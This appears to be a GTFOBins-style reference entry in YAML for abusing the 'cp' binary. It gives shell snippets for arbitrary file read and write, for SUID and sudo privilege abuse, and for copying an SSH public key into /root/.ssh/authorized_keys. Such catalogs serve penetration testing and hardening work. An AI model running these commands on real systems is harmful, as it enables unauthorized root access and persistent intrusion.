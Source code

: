 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        cp "$LFILE" /dev/stdout
  file-write:
    - code: |
        LFILE=file_to_write
        echo "DATA" | cp /dev/stdin "$LFILE"
  suid:
    - code: |
        LFILE=file_to_write
        echo "DATA" | ./cp /dev/stdin "$LFILE"
    - description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        ./cp $TF $LFILE
    - description: This can be used to create directories and copy files into them, in this case copying a key into authorized_keys when the .ssh directory did not exist prior.
      code: |
        mkdir .ssh
        echo "<public_key_here>" > .ssh/authorized_keys
        cp --parents .ssh/authorized_keys /root
  sudo:
    - code: |
        LFILE=file_to_write
        echo "DATA" | sudo cp /dev/stdin "$LFILE"
    - description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        sudo cp $TF $LFILE
---
```

